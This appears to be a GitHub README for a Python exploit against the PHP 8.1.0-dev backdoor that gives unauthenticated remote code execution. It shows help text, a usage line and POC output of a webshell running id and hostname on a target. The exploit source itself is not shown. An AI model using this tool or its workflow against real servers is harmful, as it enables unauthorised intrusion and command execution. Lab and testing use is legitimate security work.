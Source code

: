 # PHP 8.1.0-dev WebShell RCE (Unauthenticated)

> Exploit Code for PHP 8.1.0-dev WebShell Remote Code Execution (Unauthenticated)

Expected outcome: Exploiting backdoor installed on PHP 8.1.0-dev thereby achieving a WebShell to execute commands.

Intended only for educational and testing in corporate environments.

This Exploit was tested on Python 3.8.6

### Usage:

```shell
cfx:  ~/Documents/
→ ./exploit.py -h
usage: exploit.py [-h] [-l URL]

PHP 8.1.0-dev WebShell RCE by ColdFusionX

optional arguments:
  -h, --help         show this help message and exit
  -l URL, --url URL  PHP 8.1.0-dev Target URL(Example: http://127.0.0.1)

Exploit Usage : 
./exploit.py -l http://127.0.0.1
[^] WebShell=- id
OR
[^] WebShell=- whoami
```

#### User Inputs :

This exploit expects single arguments to run initially :

- **-l** : PHP 8.1.0-dev Target URL

#### POC

- Scenario 1 : Valid Vulnerable target

```shell
cfx:  ~/Documents/
→ ./exploit.py -l http://127.0.0.1

[+] PHP 8.1.0-dev WebShell RCE by ColdFusionX 
 
Target is running on PHP 8.1.0-dev

*Shoot your commands below* 

[^] WebShell=- id

uid=1000(cfx) gid=1000(cfx) groups=1000(cfx)

[^] WebShell=- hostname

shockwave

[^] WebShell=- ^C
Exiting.
```

- Scenario 2 : Invalid Target

```shell
cfx:  ~/Documents/
→ ./exploit.py -l http://127.0.0.1

[+] PHP 8.1.0-dev WebShell RCE by ColdFusionX 
 
Invalid URL or Target Not Vulnerable
```
## Reference

- https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor
- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
